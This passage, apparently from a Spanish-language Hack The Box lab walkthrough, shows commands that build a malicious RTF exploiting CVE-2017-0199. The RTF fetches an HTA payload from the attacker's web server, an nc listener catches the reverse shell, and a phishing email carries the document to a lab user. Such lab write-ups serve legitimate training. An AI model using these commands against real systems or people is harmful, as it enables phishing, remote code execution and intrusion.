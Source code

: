 {% code overflow="wrap" %}
```bash
python2.7 cve-2017-0199_toolkit.py -M gen -w pawned.rtf -u http://10.10.16.5/pawned.hta -t rtf -x 0
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3348_vmware_PIUokLjiWY.png" alt=""><figcaption></figcaption></figure>

El siguiente paso será levantar un servidor web con Python donde tenemos alojado el archivo _**HTA**_, también nos pondremos en escucha por el puerto especificado en el payload HTA de la Reverse Shell, y también enviaremos un correo a (nico@megabank.com) pasándole el archivo RTF malicioso.

Verificamos que finalmente el archivo se ha enviado correctamente, y al parecer el usuario (nico@megabank.com) lo ha abierto y hemos recibido una Reverse Shell.

{% code overflow="wrap" %}
```bash
python3 -m http.server 80

rlwrap -cAr nc -nlvp 443

sendEmail -f gzzcoo@htb.local -t nico@megabank.com -u "IMPORTANT" -m "I'll send you the report you asked for, thanks." -a pawned.rtf -s 10.10.10.77 -v
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/3350_vmware_reqJjbWC5R.png" alt=""><figcaption></figcaption></figure>

Verificaremos que encontramos la flag de **user.txt.**

<figure><img src="../../../.gitbook/assets/3351_vmware_GmIl8UhAYC.png" alt=""><figcaption></figcaption></figure>
